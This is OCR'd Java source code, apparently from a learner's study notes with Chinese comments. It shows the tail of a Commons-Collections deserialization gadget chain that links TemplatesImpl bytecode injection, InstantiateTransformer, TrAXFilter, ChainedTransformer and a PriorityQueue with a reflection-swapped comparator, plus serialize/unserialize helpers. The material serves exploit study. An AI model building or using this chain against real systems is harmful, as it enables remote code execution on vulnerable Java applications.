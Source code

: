```plain
        // private byte[][] _bytecodes = null;如果为null，报出异常；
        //同时满足这个loader.defineClass(_bytecodes[i]);
        byte[][] codes = {code};
        bytecodeField.set(Templates,codes);
//    避免_tfactory为空指针而报错
//    TemplatesImpl.TransletClassLoader loader = (TemplatesImpl.TransletClassLoader)
//            AccessController.doPrivileged(new PrivilegedAction() {
//                public Object run() {
//                    return new TemplatesImpl.TransletClassLoader(ObjectFactory.findClassLoader(),_tfactory.getExternalExtensionsMap());
//                }
//            });
//        Field tfactoryField = tc.getDeclaredField("_tfactory");
//        tfactoryField.setAccessible(true);
//        tfactoryField.set(Templates,new TransformerFactoryImpl());
//        Templates.newTransformer();

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{Templates});
//        instantiateTransformer.transform(TrAXFilter.class);//类不能序列化，class可以
        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                instantiateTransformer

        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);

        TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer<>(1));

        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);
        //size长度要加2
        priorityQueue.add(1);
        priorityQueue.add(1);

        Class c = transformingComparator.getClass();
        Field transformedField = c.getDeclaredField("transformer");
        transformedField.setAccessible(true);
        transformedField.set(transformingComparator,chainedTransformer);

//        serialize(priorityQueue);
        unserialize("ser.bin");
    }


    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

